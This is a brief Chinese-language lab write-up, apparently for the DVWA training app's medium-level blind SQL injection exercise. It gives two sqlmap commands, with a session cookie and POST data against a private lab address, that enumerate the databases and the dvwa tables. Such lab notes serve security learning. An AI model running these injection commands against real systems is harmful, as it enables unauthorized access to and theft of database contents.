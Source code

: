 

### Medium级别

bp抓包，发现是post请求携带参数提交的数据，需要使用 --data 参数把数据引入过来

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230803213154446.png" alt="image-20230803213737052" style="zoom:33%;" />



爆破数据库

```shell
sqlmap "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind/#" --cookie "security=medium; PHPSESSID=ejqjhrcjdf2em40du4bru9l96n" --data "id=1&Submit=Submit" --dbs --batch
```



![image-20230803213154446](./DVWA.assets/image-20230803213737052.png)

爆破数据库的表

```shell
sqlmap "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind/#" --cookie "security=medium; PHPSESSID=ejqjhrcjdf2em40du4bru9l96n" --data "id=1&Submit=Submit" -D dvwa --tables --batch

```
